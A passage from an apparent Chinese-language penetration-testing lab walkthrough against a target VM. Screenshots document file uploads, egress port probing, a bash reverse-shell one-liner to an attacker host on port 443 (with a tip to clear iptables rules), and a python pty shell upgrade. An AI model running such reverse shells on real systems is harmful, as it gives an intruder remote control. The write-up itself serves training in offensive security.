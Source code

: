 image-20250120172248994  
  
切换tmp进行下载还是失败  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOWGHpD1kwltMCKByl9FufQQXY6Msnu6uSSWcZY17aiafhPDWN9j1J1aA/640?wx_fmt=png&from=appmsg "")  
  
image-20250120182502495  
  
那么就麻烦一点，传到本机上，再传到靶机  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO7zMTdPSI6OYrCHDGNy93OJetEzSH2qHicyvefWgNHdQsI7IZ4hGTgIQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250120182742532  
  
这样就能上传成功了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO0C5M7SeHMKTZ6zfpq0MicMHsFnGXtibKFUfysIZfcEe52DClVh89sYXQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250120183112857  
  
执行脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOEv0aveHlwHeUiaRQJfukfJ29U1c5dgIaiaSAuLSHBdialicWIZgVuUpxEA/640?wx_fmt=png&from=appmsg "")  
  
image-20250120212631946  
  
会生成一个txt文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOVJO7j5nGTttmHpVyRUB8uPTGRFR3tBRZkzoTRYCoPxwkmibccTbhSdg/640?wx_fmt=png&from=appmsg "")  
  
image-20250120221606777  
  
这里需要多执行几次，否则都是关闭的状态，检测不到结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOPza57MbZbVia9WG3giag8PZxOkwEOXTxeAv2H7E0OPKgArr58ZAEl0gw/640?wx_fmt=png&from=appmsg "")  
  
image-20250120235654877  
  
kali回显了，说明443端口是放行的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOoKevz8tsTUorbGaPibAqZ2dFIopkuiapebRXXntkq8dsvVOzevlibkr0w/640?wx_fmt=png&from=appmsg "")  
  
image-20250120235744147  
  
用bash反弹shell（如果反弹不成功，需要清除 iptables 的所有规则）  
```
bash -c 'bash -i >& /dev/tcp/192.168.209.130/443 0>&1'

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOCERL9hBVibNiaAXXicnoMgnIicYxwCibwy0rYolLfOlGL33IibNf8BFaTrMg/640?wx_fmt=png&from=appmsg "")  
  
image-20250121003715689  
  
创建一个交互式终端  
```
python -c 'import pty; pty.spawn("/bin/bash")'

```  
  